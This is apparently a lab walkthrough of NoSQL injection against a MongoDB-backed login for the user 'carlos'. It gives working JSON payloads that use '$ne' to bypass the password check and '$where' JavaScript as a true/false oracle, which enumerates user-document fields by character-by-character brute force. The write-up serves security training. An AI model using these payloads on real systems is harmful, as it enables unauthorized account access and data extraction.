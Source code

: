 Mongo also has the `$where` operator which accepts a string of a javascript code.
So we try:
```bash
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "function() {return 0}"}
```
Or the same but simplified:
```bash
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```
And we receive: `Invalid username or password` err.
If we change `"$where": "1"`
We get `account locked` err again

After the injection, on the backend it probably looks something like:
```bash
await userMongooseModel.find({"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"})
```

So we first figure out how many fields the user document has:
```bash
{
    "username":"carlos",
    "password":{"$ne":"invalid"},
    "$where": "function() { return Object.keys(this).length === 4 }"
}
```
So there are 4 fields in user document. We know for sure the first one is `_id`, 
```bash
{
    "username":"carlos",
    "password":{"$ne":"invalid"},
    "$where": "function() { return Object.keys(this)[1] === 'username' }"
}
```
The second (at index 1) is `username`
```bash
{
    "username":"carlos",
    "password":{"$ne":"invalid"},
    "$where": "function() { return Object.keys(this)[2] === 'password' }"
}
```
The third (at index 2) is `password`

And now we need to figure out what is the name of the last field in user document
```bash
{
    "username":"carlos",
    "password":{"$ne":"invalid"},
    "$where": "function() { return Object.keys(this)[3].startsWith('a') }"
}
```
So we now are bruteforcing the value between `startsWith(<valueToBeBruteForced>)`
After finding the first letter we then brute force the second, and so on:
```bash
...
"$where": "function() { return Object.keys(this)[3].startsWith('e<second letter to be brute forced>') }"
```
So we now know that the fourth field is `email`
